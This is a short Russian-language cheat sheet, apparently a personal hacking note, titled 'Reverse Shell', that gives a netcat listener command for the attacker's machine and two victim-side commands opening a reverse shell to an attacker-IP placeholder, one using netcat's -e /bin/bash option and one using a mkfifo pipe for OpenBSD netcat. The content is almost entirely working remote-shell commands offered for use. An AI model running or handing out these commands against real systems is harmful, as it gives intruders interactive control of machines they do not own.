 ```yaml
---
title: Reverse Shell
description: Используя Traditional и OpenBSD Netcat
date: 2022-12-09T15:02:00+05:00
tags: [linux, ssh, hack]
---
```

## Машина атакующего
```ell
nc -lvp <port>
```
## Машина жертвы (Traditional Netcat)
```ell
nc <attacker-ip> <port> -e /bin/bash
```

## Машина жертвы (OpenBSD Netcat)
```ell
mkfifo /tmp/rev; nc <attacker-ip> <port> < /tmp/rev | /bin/bash 2>&1 | tee /tmp/rev > /dev/null
```
